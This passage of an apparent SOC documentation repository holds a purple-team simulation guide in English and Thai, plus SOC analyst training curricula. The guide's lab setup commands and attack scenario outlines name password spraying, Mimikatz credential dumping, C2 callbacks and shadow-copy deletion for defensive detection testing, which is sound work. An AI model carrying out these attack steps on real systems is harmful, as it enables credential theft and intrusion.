  □ Playbook PB-02 followed correctly? (Yes/No)
  □ Time to isolate: ___ min (target: ≤5 min for P1)
```

## Post-Exercise Debrief Template

```markdown
## Purple Team Exercise Report — [DATE]

### Exercise Details
- **Facilitator**: [Name]
- **Red Team Lead**: [Name]
- **Blue Team Lead**: [Name]
- **Duration**: [X hours]
- **Environment**: [Lab description]

### Techniques Tested
| # | MITRE ID | Technique | Detection | Response | Score |
|:---|:---|:---|:---|:---|:---|
| 1 | TXXXX | [Name] | ✅/⚠️/❌ | ✅/⚠️/❌ | [0-10] |

### Overall Scores
- Detection Coverage: __/10
- Response Effectiveness: __/10
- Communication: __/10
- Documentation: __/10

### Gaps Identified
1. [Detection gap — no rule for TXXXX]
2. [Response gap — playbook missing step for X]
3. [Tool gap — EDR didn't block Y]

### Remediation Actions
| # | Action | Owner | Deadline | Priority |
|:---|:---|:---|:---|:---|
| 1 | Create Sigma rule for TXXXX | [Name] | [Date] | High |
| 2 | Update PB-XX with new step | [Name] | [Date] | Medium |

### Next Exercise
- **Date**: [Planned date]
- **Focus**: [Planned techniques/scenarios]
```

## Common Pitfalls

| Pitfall | Mitigation |
| :--- | :--- |
| Running tests in production | Always use dedicated lab/sandbox environment |
| No change control approval | Submit RFC before any simulation exercise |
| Testing without monitoring | Ensure SIEM, EDR, and network monitors are active |
| Skipping cleanup | Always reverse changes after test completion |
| No documentation of results | Use the report template above for every exercise |

## Related Documents
-   [Atomic Test Map](Atomic_Test_Map.en.md)
-   [Incident Response Framework](../05_Incident_Response/Framework.en.md)
-   [Detection Engineering Lifecycle](../03_User_Guides/Content_Management.en.md)

## References
-   [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)
-   [MITRE ATT&CK](https://attack.mitre.org/)


---

## File: 09_Simulation_Testing/Simulation_Guide.th.md

# คู่มือ Simulation & Purple Teaming

คู่มือนี้อธิบายวิธีทำ **Purple Team Exercise** (Red Team โจมตี + Blue Team ป้องกัน) เพื่อทดสอบความพร้อมของ SOC

## สิ่งที่ต้องมี
1. **สภาพแวดล้อมทดสอบ**: VM หรือ Lab เฉพาะ (ห้ามรันใน Production)
2. **เครื่องมือ**:
   - **Atomic Red Team**: สำหรับจำลองการโจมตี
   - **Caldera** (ตัวเลือก): สำหรับ campaign อัตโนมัติ
   - **SIEM**: สำหรับดู alert

## วงจรการทำงาน (Feedback Loop)

```mermaid
graph TD
    Execute["1. โจมตี (Red)"] --> Detect["2. ตรวจจับ (Blue)"]
    Detect --> Respond["3. ตอบสนอง (Blue)"]
    Respond --> Improve["4. ปรับปรุง (Purple)"]
    Improve --> Execute
```

### ขั้นตอน 1: โจมตี (Red)
รัน Atomic Test ที่ตรงกับ Playbook ที่ต้องการทดสอบ
```powershell
Invoke-AtomicTest T1059.001
```

### ขั้นตอน 2: ตรวจจับ (Blue)
ตรวจ SIEM Dashboard:
- Alert trigger ไหม?
- Severity ถูกต้องไหม?
- มี context ครบไหม? (User, Host, Command Line)

### ขั้นตอน 3: ตอบสนอง (Blue)
เปิด Playbook แล้วทำตาม:
- วิเคราะห์ → Contain → กำจัด
- **Gap Analysis**: Playbook ขาดขั้นตอนอะไรไหม?

### ขั้นตอน 4: ปรับปรุง (Purple)
- **Tune Rule**: ถ้า alert ไม่ fire → ปรับ Sigma rule
- **Update Playbook**: เพิ่มขั้นตอนที่พบว่าขาด

## ตารางเวลาแนะนำ
- **รายสัปดาห์**: ทดสอบ 1 Playbook สำคัญ (Ransomware, Phishing)
- **รายเดือน**: ทดสอบ 3–5 Playbooks แบบสุ่ม
- **รายไตรมาส**: จำลอง full chain (Phishing → Lateral Mov → Exfil)

## ตารางครอบคลุมการทดสอบ

| MITRE Tactic | Playbook | Atomic Test | Sigma Rule | ผลลัพธ์ |
|:---|:---|:---|:---|:---|
| Initial Access | PB-01 Phishing | T1566.001 | cloud_email_inbox_rule | [ผ่าน/ไม่ผ่าน] |
| Execution | PB-11 Suspicious Script | T1059.001 | proc_powershell_encoded | [ผ่าน/ไม่ผ่าน] |
| Privilege Escalation | PB-06 | T1068 | win_domain_admin_group_add | [ผ่าน/ไม่ผ่าน] |
| Defense Evasion | PB-20 Log Clearing | T1070.001 | win_security_log_cleared | [ผ่าน/ไม่ผ่าน] |
| Lateral Movement | PB-09 | T1021.002 | win_admin_share_access | [ผ่าน/ไม่ผ่าน] |
| Exfiltration | PB-08 | T1041 | net_large_upload | [ผ่าน/ไม่ผ่าน] |
| Impact | PB-02 Ransomware | T1486 | file_bulk_renaming | [ผ่าน/ไม่ผ่าน] |

## เกณฑ์การให้คะแนน

| คะแนน | คำจำกัดความ | การดำเนินการ |
|:---:|:---|:---|
| ✅ **ผ่าน** | แจ้งเตือนภายใน SLA, ระดับความรุนแรงถูกต้อง | บันทึกผลลัพธ์ |
| ⚠️ **บางส่วน** | แจ้งเตือนแต่ล่าช้า/ขาดบริบท | ปรับ Sigma rule + อัปเดต Playbook |
| ❌ **ไม่ผ่าน** | ไม่มีแจ้งเตือน | สร้าง/แก้ไข Sigma rule |


## การตั้งค่าสภาพแวดล้อม Lab

### ข้อกำหนดขั้นต่ำ
| Component | Specification | วัตถุประสงค์ |
|:---|:---|:---|
| Windows 10/11 VM | 4GB RAM, 40GB disk | เป้าหมายจำลอง |
| Kali Linux VM | 2GB RAM, 20GB disk | แพลตฟอร์มโจมตี |
| SIEM | Wazuh/Elastic (single node) | ตรวจสอบ detection |
| EDR | Sysmon + Winlogbeat | เก็บ telemetry |
| Network bridge | Isolated VLAN/NAT | แยก traffic |

### คำสั่งติดตั้ง

#### ติดตั้ง Atomic Red Team (บน Windows เป้าหมาย)
```powershell
# ติดตั้งจาก PowerShell Gallery
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force
Install-Module -Name invoke-atomicredteam -Scope CurrentUser -Force
Import-Module invoke-atomicredteam

# ติดตั้ง atomic tests ทั้งหมด
Install-AtomicRedTeam -getAtomics -Force

# ตรวจสอบการติดตั้ง
Invoke-AtomicTest T1059.001 -ShowDetails
```

#### ติดตั้ง Sysmon (สำหรับ telemetry)
```powershell
# ดาวน์โหลด Sysmon + config
Invoke-WebRequest -Uri "https://live.sysinternals.com/Sysmon64.exe" -OutFile Sysmon64.exe
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml" -OutFile sysmonconfig.xml

# ติดตั้งพร้อม config
.\Sysmon64.exe -accepteula -i sysmonconfig.xml
```

#### ติดตั้ง MITRE Caldera (attacker server)
```bash
# Clone Caldera
git clone https://github.com/mitre/caldera.git --recursive
cd caldera

# รัน Caldera server
pip3 install -r requirements.txt
python3 server.py --insecure --build

# เข้าถึง: http://localhost:8888 (default: admin/admin)
```

## สถานการณ์ทดสอบโดยละเอียด

### สถานการณ์ 1: Phishing → Malware → C2 (Full Kill Chain)

```
เตรียม:
  1. เตรียม phishing email พร้อม macro document
  2. เปิด Sysmon + SIEM logging บนเป้าหมาย
  3. เตรียม C2 listener (Caldera agent หรือ netcat)

ดำเนินการ:
  ขั้นที่ 1: T1566.001 — ส่ง phishing email พร้อมไฟล์แนบ
  ขั้นที่ 2: T1204.002 — User เปิดไฟล์แนบ, เปิด macro
  ขั้นที่ 3: T1059.001 — PowerShell execute payload
  ขั้นที่ 4: T1071.001 — Callback กลับ C2 ผ่าน HTTP/HTTPS
  ขั้นที่ 5: T1082     — คำสั่ง system discovery

ตรวจสอบ:
  □ Email gateway ตรวจพบ phishing? (ใช่/ไม่)
  □ EDR block macro execution? (ใช่/ไม่)
  □ SIEM alert สำหรับ PowerShell? (ใช่/ไม่)
  □ Network alert สำหรับ C2 callback? (ใช่/ไม่)
  □ Playbook PB-01 ปฏิบัติตามถูกต้อง? (ใช่/ไม่)
  □ เวลาตรวจพบ: ___ นาที (เป้า: ≤15 นาที)
```

### สถานการณ์ 2: ขโมย Credential → Lateral Movement

```
เตรียม:
  1. สร้าง test accounts ที่มี password อ่อน
  2. เปิด authentication logging
  3. Deploy Mimikatz บน test VM

ดำเนินการ:
  ขั้นที่ 1: T1110.003 — Password spray ต่อ test accounts
  ขั้นที่ 2: T1078.002 — Login ด้วย credentials ที่ขโมย
  ขั้นที่ 3: T1003.001 — รัน Mimikatz dump credential
  ขั้นที่ 4: T1021.002 — ย้ายตัวผ่าน SMB/Admin share
  ขั้นที่ 5: T1570     — คัดลอก tools ไปเครื่องอื่น

ตรวจสอบ:
  □ Alert login ผิดพลาดหลายครั้ง trigger? (ใช่/ไม่)
  □ Login สำเร็จหลัง fail ถูก flag? (ใช่/ไม่)
  □ Mimikatz ถูก EDR ตรวจจับ? (ใช่/ไม่)
  □ Lateral movement ถูกตรวจจับ? (ใช่/ไม่)
  □ Playbook PB-04 + PB-12 ปฏิบัติตาม? (ใช่/ไม่)
  □ เวลา contain: ___ นาที (เป้า: ≤30 นาที)
```

### สถานการณ์ 3: Ransomware Simulation

```
เตรียม:
  1. สร้าง test files ใน folder ที่แยกออก
  2. เตรียม script เปลี่ยนชื่อไฟล์ (ไม่เข้ารหัสจริง!)
  3. ปิดการเข้ารหัสจริง — ใช้การเปลี่ยนชื่อเท่านั้น!

ดำเนินการ:
  ขั้นที่ 1: T1486 — เปลี่ยนชื่อไฟล์จำนวนมาก (.encrypted)
  ขั้นที่ 2: T1490 — ลอง delete shadow copy
  ขั้นที่ 3: T1489 — หยุด service (test services เท่านั้น)
  ขั้นที่ 4: T1485 — สร้าง ransom note

ตรวจสอบ:
  □ กิจกรรมเปลี่ยนชื่อไฟล์จำนวนมากถูกตรวจจับ? (ใช่/ไม่)
  □ Shadow copy deletion ถูก flag? (ใช่/ไม่)
  □ Service stop alert trigger? (ใช่/ไม่)
  □ EDR auto-isolate เครื่อง? (ใช่/ไม่)
  □ Playbook PB-02 ปฏิบัติตามถูกต้อง? (ใช่/ไม่)
  □ เวลา isolate: ___ นาที (เป้า: ≤5 นาที สำหรับ P1)
```

## Template รายงานหลังการฝึก

```markdown
## รายงาน Purple Team — [วันที่]

### รายละเอียดการฝึก
- **ผู้นำ**: [ชื่อ]
- **Red Team Lead**: [ชื่อ]
- **Blue Team Lead**: [ชื่อ]
- **ระยะเวลา**: [X ชม.]
- **สภาพแวดล้อม**: [คำอธิบาย Lab]

### Techniques ที่ทดสอบ
| # | MITRE ID | Technique | Detection | Response | คะแนน |
|:---|:---|:---|:---|:---|:---|
| 1 | TXXXX | [ชื่อ] | ✅/⚠️/❌ | ✅/⚠️/❌ | [0-10] |

### คะแนนรวม
- Detection Coverage: __/10
- Response Effectiveness: __/10
- Communication: __/10
- Documentation: __/10

### ช่องโหว่ที่พบ
1. [Detection gap — ไม่มี rule สำหรับ TXXXX]
2. [Response gap — playbook ขาดขั้นตอน X]
3. [Tool gap — EDR ไม่ block Y]

### แผนแก้ไข
| # | Action | เจ้าของ | กำหนด | Priority |
|:---|:---|:---|:---|:---|
| 1 | สร้าง Sigma rule สำหรับ TXXXX | [ชื่อ] | [วันที่] | สูง |
| 2 | อัปเดต PB-XX เพิ่มขั้นตอน | [ชื่อ] | [วันที่] | กลาง |

### การฝึกครั้งต่อไป
- **วันที่**: [วันที่วางแผน]
- **โฟกัส**: [techniques/scenarios ที่วางแผน]
```

## ข้อผิดพลาดที่พบบ่อย

| ข้อผิดพลาด | วิธีป้องกัน |
|:---|:---|
| รันในระบบ Production | ใช้สภาพแวดล้อม Lab/Sandbox เท่านั้น |
| ไม่มีการอนุมัติ Change Control | ยื่น RFC ก่อนทำ Simulation |
| ทดสอบโดยไม่เปิด Monitoring | ตรวจสอบว่า SIEM, EDR ทำงานอยู่ |
| ไม่ทำ Cleanup หลังทดสอบ | ย้อนกลับการเปลี่ยนแปลงทุกครั้ง |

### Safety Protocols

| Rule | Description | Enforcement |
|:---|:---|:---|
| No production data | ใช้ synthetic data only | Pre-check |
| Kill switch | หยุดได้ทันที | White team |
| Scope boundary | ห้ามเกิน scope | ROE document |
| Time window | ในเวลาที่กำหนดเท่านั้น | Calendar |
| Communication | แจ้ง NOC ก่อนเริ่ม | Email + Chat |

### Post-Simulation Debrief Agenda

| เวลา | หัวข้อ | ผู้นำ |
|:---|:---|:---|
| 0-10 min | Overview + timeline | Facilitator |
| 10-25 min | Attack narrative | Red team |
| 25-40 min | Detection narrative | Blue team |
| 40-55 min | Gap analysis | All |
| 55-60 min | Action items | Facilitator |

## เอกสารที่เกี่ยวข้อง
- [Atomic Test Map](Atomic_Test_Map.en.md)
- [IR Framework](../05_Incident_Response/Framework.th.md)
- [Detection Engineering](../03_User_Guides/Content_Management.th.md)


---

## File: 01_SOC_Fundamentals/Analyst_Training_Path.en.md

# SOC Analyst Training Path — From Zero to Competent

> **Document ID:** TRAIN-001  
> **Version:** 1.0  
> **Last Updated:** 2026-02-15  
> **Audience:** New Analysts, SOC Managers, HR/L&D

---

## Training Philosophy

```
"You don't need a degree in cybersecurity to be a great SOC analyst.
 You need curiosity, discipline, and the right training path."
```

This guide provides a **structured 6-month curriculum** to take someone from IT basics to a competent SOC Tier 1 analyst, and a **12-month advanced path** to Tier 2.

---

## Prerequisites Assessment

Before starting, the candidate should be able to:

| Skill | Required Level | How to Test |
|:---|:---|:---|
| Basic computer literacy | Can use CLI | "Open terminal, navigate to a folder" |
| English reading | Intermediate | Security docs are mostly English |
| Willingness to learn | High | Interview for motivation |

If the candidate lacks these basics, add 4 weeks of pre-training (see Appendix).

---

## Phase 1: Foundations (Month 1–2)

### Month 1: IT & Networking Foundations

| Week | Topic | Resources | Hands-On Lab |
|:---:|:---|:---|:---|
| 1 | **Networking basics** — OSI model, TCP/IP, DNS, DHCP, NAT | CompTIA Network+ study guide, Professor Messer (YouTube) | Set up a home lab with VirtualBox |
| 2 | **Linux fundamentals** — File system, CLI, permissions, services | TryHackMe "Linux Fundamentals" (free) | Navigate Linux, find files, read logs |
| 3 | **Windows fundamentals** — AD basics, Event Viewer, services, registry | TryHackMe "Windows Fundamentals" (free) | Read Windows Event Logs, find services |
| 4 | **Network tools** — Wireshark, nmap, tcpdump, netstat | Wireshark official tutorials | Capture traffic, identify protocols |

**Assessment:** Written quiz + hands-on: "Given these packet captures, what happened?"

### Month 2: Security Foundations

| Week | Topic | Resources | Hands-On Lab |
|:---:|:---|:---|:---|
| 5 | **Security concepts** — CIA triad, authentication, encryption, hashing | CompTIA Security+ study guide | Hash a file, encrypt/decrypt with GPG |
| 6 | **Common attacks** — Phishing, malware types, social engineering | MITRE ATT&CK overview, TryHackMe "Intro to Cyber Security" | Analyze a phishing email header |
| 7 | **Vulnerability basics** — CVE, CVSS, patch management | NIST NVD, CVE.org | Look up a CVE, calculate CVSS score |
| 8 | **Security architecture** — Firewalls, IDS/IPS, DMZ, VPN | Network diagrams, TryHackMe "Network Security" | Draw your org's network diagram |

**Assessment:** CompTIA Security+ practice exam (target: >75%)

---

## Phase 2: SOC-Specific Skills (Month 3–4)

### Month 3: SIEM & Log Analysis

| Week | Topic | Resources | Hands-On Lab |
|:---:|:---|:---|:---|
| 9 | **SIEM fundamentals** — What is SIEM, how it works, data flow | Vendor training (Wazuh/Elastic/Splunk free courses) | Install Wazuh on a VM |
| 10 | **Log analysis** — Windows logs (4624/4625/4688), Linux logs, syslog | TryHackMe "SOC Level 1" path | Investigate 10 real-format log entries |
| 11 | **Search & query** — KQL, Lucene, SPL, regex basics | SIEM vendor documentation | Write 10 queries: find failed logins, process creation |
| 12 | **Dashboard & visualization** — Build a SOC dashboard | Wazuh/Kibana dashboard tutorial | Create a dashboard with 5 panels |

**Assessment:** "Given this SIEM data, find the brute force attack and document the timeline."

### Month 4: Alert Triage & Investigation

| Week | Topic | Resources | Hands-On Lab |
|:---:|:---|:---|:---|
| 13 | **Alert triage** — Severity classification, true vs false positive | [Severity Matrix](../05_Incident_Response/Severity_Matrix.en.md), [Tier 1 Runbook](../05_Incident_Response/Runbooks/Tier1_Runbook.en.md) | Triage 20 sample alerts |
| 14 | **IOC enrichment** — VirusTotal, AbuseIPDB, URLhaus, Shodan | LetsDefend.io free labs | Enrich 10 IOCs using free tools |
| 15 | **MITRE ATT&CK** — Tactics, techniques, procedures mapping | ATT&CK Navigator (online) | Map 5 alerts to ATT&CK techniques |
| 16 | **Ticket writing** — Proper documentation, evidence preservation | [Communication Templates](../05_Incident_Response/Communication_Templates.en.md) | Write 5 incident tickets from sample data |

**Assessment:** Full alert-to-ticket exercise — 10 alerts, complete triage pipeline.

---

## Phase 3: Incident Response (Month 5–6)

### Month 5: IR Process & Playbooks

| Week | Topic | Resources | Hands-On Lab |
|:---:|:---|:---|:---|
| 17 | **IR framework** — Preparation, Detection, Containment, Eradication, Recovery, Lessons | [IR Framework](../05_Incident_Response/Framework.en.md) | Walk through the IR framework with a scenario |
| 18 | **Playbook drills** — PB-01 to PB-05 (Phishing, Ransomware, Malware, Brute Force, Account) | [Playbooks](../05_Incident_Response/Playbooks/Phishing.en.md) | Execute each playbook step-by-step with simulated data |
| 19 | **Containment actions** — Isolate host, block IP, disable account, reset password | EDR/SIEM documentation | Practice containment in lab environment |
| 20 | **Evidence handling** — Order of volatility, chain of custody, screenshots | [Evidence Collection](../05_Incident_Response/Evidence_Collection.en.md) | Collect evidence from a compromised VM |

### Month 6: Advanced Topics & Certification

| Week | Topic | Resources | Hands-On Lab |
|:---:|:---|:---|:---|
| 21 | **Threat intelligence** — IOC management, TI feeds, MISP basics | [TI Lifecycle](../06_Operations_Management/Threat_Intelligence_Lifecycle.en.md) | Add IOCs to a TI platform |
| 22 | **Tabletop exercise** — Participate in a group exercise | [Tabletop Exercises](../05_Incident_Response/Tabletop_Exercises.en.md) | Join a tabletop as a player |
| 23 | **Cert prep** — CompTIA Security+ / CySA+ / SC-900 | Practice exams | Take 3 practice exams |
| 24 | **Final assessment** — Full scenario test | Internal SOC team | Solo handle a multi-stage incident simulation |

**Final Assessment:** Complete a 2-hour scenario: detect, triage, investigate, contain, document, and debrief. Score using [Tabletop Scoring Rubric](../05_Incident_Response/Tabletop_Exercises.en.md).

---

## Phase 4: Tier 2 Advanced Path (Month 7–12)

| Month | Focus | Key Skills |
|:---:|:---|:---|
| 7 | **Deep Windows forensics** | Memory analysis (Volatility), registry forensics, prefetch, shimcache |
| 8 | **Network forensics** | Zeek logs, full PCAP analysis, C2 detection patterns |
| 9 | **Malware analysis (basic)** | Static analysis, sandbox usage, YARA rule writing |
| 10 | **Cloud security** | AWS CloudTrail, Azure AD, M365 investigation |
| 11 | **Detection engineering** | Sigma rule writing, tuning, coverage gap analysis |
| 12 | **Threat hunting** | Hypothesis-driven hunting, data analysis, reporting |

### Recommended T2 Certifications

| Cert | Cost | Focus |
|:---|:---:|:---|
| CompTIA CySA+ | ~฿12K | SOC analyst skills |
| BTL1 (Blue Team Level 1) | ~฿15K | Hands-on blue team |
| SC-200 (Microsoft) | ~฿8K | Sentinel/Defender |
| SANS GCIH | ~฿200K | Incident handling (gold standard) |
| SANS GCFA | ~฿200K | Advanced forensics |

---

## Free Training Resources (Curated)

| Resource | What You Learn | Cost | Level |
|:---|:---|:---:|:---:|
| [TryHackMe](https://tryhackme.com) | SOC Level 1 & 2 paths | Free tier | Beginner–Mid |
| [LetsDefend](https://letsdefend.io) | SOC analyst simulation | Free tier | Beginner |
| [CyberDefenders](https://cyberdefenders.org) | Blue team challenges | Free | Mid–Advanced |
| [SANS Webcasts](https://sans.org/webcasts) | Expert sessions | Free | All |
| [Malware Traffic Analysis](https://malware-traffic-analysis.net) | PCAP analysis exercises | Free | Mid |
| [Blue Team Labs Online](https://blueteamlabs.online) | IR investigations | Free tier | Mid |
| [AttackIQ Academy](https://academy.attackiq.com) | MITRE ATT&CK courses | Free | Beginner–Mid |
| [Splunk Free Training](https://education.splunk.com) | Splunk fundamentals | Free | Beginner |
| [Elastic Training](https://elastic.co/training) | Elastic/Kibana | Free | Beginner |
| **This Repository** | Real SOPs, playbooks, rules | Free | All |

---

## Training Tracking Template

### Individual Progress Card

```
Analyst Name: ____________________
Start Date: ____________________
Assigned Mentor: ____________________

Phase 1: Foundations
  □ Week 1:  Networking      [    /5  ]  Date: ________
  □ Week 2:  Linux           [    /5  ]  Date: ________
  □ Week 3:  Windows         [    /5  ]  Date: ________
  □ Week 4:  Network Tools   [    /5  ]  Date: ________
  □ Week 5:  Security Concepts[    /5  ]  Date: ________
  □ Week 6:  Common Attacks   [    /5  ]  Date: ________
  □ Week 7:  Vulnerabilities  [    /5  ]  Date: ________
  □ Week 8:  Security Arch    [    /5  ]  Date: ________
  ✎ Phase 1 Assessment: [    /100  ]  Pass: □ Yes □ No

Phase 2: SOC Skills
  □ Week 9:  SIEM Fundamentals[    /5  ]  Date: ________
  □ Week 10: Log Analysis     [    /5  ]  Date: ________
  □ Week 11: Search & Query   [    /5  ]  Date: ________
  □ Week 12: Dashboards       [    /5  ]  Date: ________
  □ Week 13: Alert Triage     [    /5  ]  Date: ________
  □ Week 14: IOC Enrichment   [    /5  ]  Date: ________
  □ Week 15: MITRE ATT&CK    [    /5  ]  Date: ________
  □ Week 16: Ticket Writing   [    /5  ]  Date: ________
  ✎ Phase 2 Assessment: [    /100  ]  Pass: □ Yes □ No

Phase 3: IR
  □ Week 17-20: Playbooks & Evidence  [    /5  ]
  □ Week 21-24: TI, TTX, Cert prep   [    /5  ]
  ✎ Final Assessment: [    /100  ]  Pass: □ Yes □ No
  ✎ Certification: __________________  Date: ________

Ready for Independent Work: □ Yes □ No
  Signed by SOC Manager: __________________
  Date: __________________
```

---

## Manager's Quarterly Training Budget

| Item | Per Person | 3 Analysts |
|:---|:---:|:---:|
| TryHackMe Premium | ฿5K/year | ฿15K |
| CySA+ voucher | ฿12K one-time | ฿36K |
| SANS OnDemand (1 course) | ฿130K | ฿390K |
| Books & materials | ฿5K/year | ฿15K |
| Conference (1/year) | ฿10–30K | ฿30–90K |
| **Annual Total** | **฿162–182K** | **฿486–546K** |

---

## Related Documents

- [SOC Building Roadmap](SOC_Building_Roadmap.en.md)
- [Budget & Staffing](Budget_Staffing.en.md)
- [Tier 1 Runbook](../05_Incident_Response/Runbooks/Tier1_Runbook.en.md)
- [Interview Guide](../05_Incident_Response/Interview_Guide.en.md)
- [Analyst Onboarding](../10_Training_Onboarding/Analyst_Onboarding_Path.en.md)


---

## File: 01_SOC_Fundamentals/Analyst_Training_Path.th.md

# เส้นทางฝึก SOC Analyst — จากศูนย์สู่มืออาชีพ

> **รหัสเอกสาร:** TRAIN-001  
> **เวอร์ชัน:** 1.0  
> **อัปเดตล่าสุด:** 2026-02-15  
> **กลุ่มเป้าหมาย:** Analyst ใหม่, SOC Manager, HR

---

## หลักสูตร 6 เดือน → T1 Analyst | 12 เดือน → T2 Analyst

---

## เฟส 1: พื้นฐาน (เดือน 1–2)

### เดือน 1: IT & Networking

| สัปดาห์ | หัวข้อ | แหล่งเรียน | Lab |
|:---:|:---|:---|:---|
| 1 | **Networking** — OSI, TCP/IP, DNS | CompTIA Network+, YouTube | ตั้ง lab ด้วย VirtualBox |
| 2 | **Linux** — CLI, permission, services | TryHackMe "Linux Fundamentals" | อ่าน log, หาไฟล์ |
| 3 | **Windows** — AD, Event Viewer, registry | TryHackMe "Windows Fundamentals" | อ่าน Event Log |
| 4 | **Network tools** — Wireshark, nmap, tcpdump | Wireshark tutorials | capture traffic |

### เดือน 2: Security

| สัปดาห์ | หัวข้อ | Lab |
|:---:|:---|:---|
| 5 | CIA triad, authentication, encryption | Hash ไฟล์, เข้ารหัส GPG |
| 6 | ชนิดการโจมตี — phishing, malware | วิเคราะห์ email header |
| 7 | CVE, CVSS, patch management | ค้น CVE, คำนวณ CVSS |
| 8 | Firewall, IDS/IPS, DMZ, VPN | วาดแผนภาพ network |

**สอบท้าย:** ข้อสอบ Security+ จำลอง (เป้า: >75%)

---

## เฟส 2: ทักษะ SOC (เดือน 3–4)

### เดือน 3: SIEM & Log

| สัปดาห์ | หัวข้อ | Lab |
|:---:|:---|:---|
| 9 | SIEM คืออะไร, data flow | ติดตั้ง Wazuh |
| 10 | Log analysis — Windows/Linux | สืบสวน log 10 รายการ |
| 11 | เขียน query — KQL/Lucene/regex | เขียน 10 queries |
| 12 | สร้าง Dashboard | สร้าง dashboard 5 panels |

### เดือน 4: Alert Triage

| สัปดาห์ | หัวข้อ | Lab |
|:---:|:---|:---|
| 13 | จัดลำดับ alert, true/false positive | Triage 20 alerts |
| 14 | IOC enrichment — VT, AbuseIPDB | Enrich 10 IOCs |
| 15 | MITRE ATT&CK mapping | Map 5 alerts |
| 16 | เขียน ticket | เขียน 5 tickets |

**สอบท้าย:** Alert-to-ticket exercise 10 alerts

---

## เฟส 3: Incident Response (เดือน 5–6)

| สัปดาห์ | หัวข้อ | Lab |
|:---:|:---|:---|
| 17 | IR Framework (NIST) | ซ้อมสถานการณ์ |
| 18 | Playbook PB-01 ถึง PB-05 | ทำตาม playbook ทีละขั้น |
| 19 | Containment — isolate, block, reset | ฝึกใน lab |
| 20 | เก็บหลักฐาน, chain of custody | เก็บจาก VM ที่ถูกยึด |
| 21 | Threat Intelligence, MISP | เพิ่ม IOC ใน TI platform |
| 22 | ซ้อม Tabletop | เข้าร่วมเป็นผู้เล่น |
| 23 | เตรียมสอบ Security+/CySA+ | ทำข้อสอบจำลอง 3 ชุด |
| 24 | **สอบจบ** — สถานการณ์จำลองเต็มรูปแบบ | แก้เหตุเดี่ยว 2 ชม. |

---

## เฟส 4: เส้นทาง T2 (เดือน 7–12)

| เดือน | สิ่งที่เรียน |
|:---:|:---|
| 7 | Windows forensics ลึก (Volatility, registry, prefetch) |
| 8 | Network forensics (Zeek, PCAP, C2 patterns) |
| 9 | Malware analysis เบื้องต้น (static, sandbox, YARA) |
| 10 | Cloud security (AWS/Azure investigation) |
| 11 | Detection engineering (Sigma rules, tuning) |
| 12 | Threat hunting (hypothesis-driven) |

---

## Cert แนะนำ

| Cert | ค่าใช้จ่าย | ระดับ |
|:---|:---:|:---:|
| CompTIA Security+ | ~฿10K | เริ่มต้น |
| SC-900 (Microsoft) | ~฿5K | เริ่มต้น |
| CySA+ | ~฿12K | กลาง |
| BTL1 | ~฿15K | กลาง |
| SC-200 | ~฿8K | กลาง |
| SANS GCIH | ~฿200K | สูง |

---

## แหล่งเรียนฟรี (คัดมาแล้ว)

| แหล่ง | เรียนอะไร | ระดับ |
|:---|:---|:---:|
| [TryHackMe](https://tryhackme.com) | SOC Level 1 & 2 | เริ่มต้น–กลาง |
| [LetsDefend](https://letsdefend.io) | จำลอง SOC analyst | เริ่มต้น |
| [CyberDefenders](https://cyberdefenders.org) | Blue team challenges | กลาง–สูง |
| [SANS Webcasts](https://sans.org/webcasts) | Expert sessions | ทุกระดับ |
| [Malware Traffic Analysis](https://malware-traffic-analysis.net) | วิเคราะห์ PCAP | กลาง |
| [AttackIQ Academy](https://academy.attackiq.com) | MITRE ATT&CK | เริ่มต้น–กลาง |
| **Repository นี้** | SOPs, playbooks, rules จริง | ทุกระดับ |

---

## แบบติดตามความก้าวหน้า

```
ชื่อ Analyst: ____________________
วันเริ่ม: ____________________
Mentor: ____________________

เฟส 1: พื้นฐาน [    /100]  ผ่าน: □
เฟส 2: ทักษะ SOC [    /100]  ผ่าน: □
เฟส 3: IR [    /100]  ผ่าน: □
Cert: __________________  วันที่ผ่าน: ________

พร้อมทำงานอิสระ: □ ใช่  □ ยังไม่พร้อม
ลงชื่อ SOC Manager: __________________
```

---

## งบฝึกอบรมต่อปี

| รายการ | ต่อคน | 3 คน |
|:---|:---:|:---:|
| TryHackMe Premium | ฿5K | ฿15K |
| CySA+ voucher | ฿12K | ฿36K |
| SANS 1 course | ฿130K | ฿390K |
| หนังสือ + วัสดุ | ฿5K | ฿15K |
| Conference 1 ครั้ง | ฿10–30K | ฿30–90K |
| **รวม/ปี** | **~฿162–182K** | **~฿486–546K** |

---

## Training Modules

| ลำดับ | โมดูล | ระยะเวลา | บังคับ/เลือก |
|:---|:---|:---:|:---:|
| 1 | Networking Fundamentals | 2 สัปดาห์ | บังคับ |
| 2 | Operating Systems (Windows + Linux) | 2 สัปดาห์ | บังคับ |
| 3 | SIEM Operations | 1 สัปดาห์ | บังคับ |
| 4 | Threat Intelligence Basics | 1 สัปดาห์ | บังคับ |
| 5 | Incident Response Process | 1 สัปดาห์ | บังคับ |
| 6 | Malware Analysis (Intro) | 2 สัปดาห์ | เลือก |
| 7 | Forensics (Intro) | 2 สัปดาห์ | เลือก |
| 8 | Cloud Security Basics | 1 สัปดาห์ | บังคับ |

## Certification Roadmap

```mermaid
graph TD
    Start["🎯 เริ่มต้น"] --> BTL1["BTL1<br/>(0-6 เดือน)"]
    BTL1 --> CCD["CCD<br/>(6-12 เดือน)"]
    CCD --> Choose{"เลือกสาย?"}
    Choose -->|IR| GCIH["GCIH / eCIR"]
    Choose -->|Detection| GCIA["GCIA / CySA+"]
    Choose -->|Forensics| GCFE["GCFE / eCDFP"]
    GCIH --> Expert["OSCP / GREM"]
    GCIA --> Expert
    GCFE --> Expert
```

## Hands-On Labs

| Lab | เครื่องมือ | ทักษะ | ระยะเวลา |
|:---|:---|:---|:---:|
| Alert Triage Simulation | SIEM (Wazuh) | คัดกรอง alert | 2 ชม. |
| Phishing Analysis | Email headers + sandbox | วิเคราะห์ phishing | 1 ชม. |
| Malware Investigation | VT + Any.Run + sandbox | วิเคราะห์ malware | 2 ชม. |
| Log Analysis Challenge | ELK/Splunk queries | เขียน query | 2 ชม. |
| IR Tabletop | Scenario-based | ตัดสินใจ IR | 2 ชม. |
| Threat Hunting | MITRE + Jupyter | Proactive hunting | 3 ชม. |

### Certification Priority Guide

| Cert | Level | Cost (approx.) | ROI |
|:---|:---|:---|:---|
| CompTIA Security+ | Entry | ~12,000 THB | High |
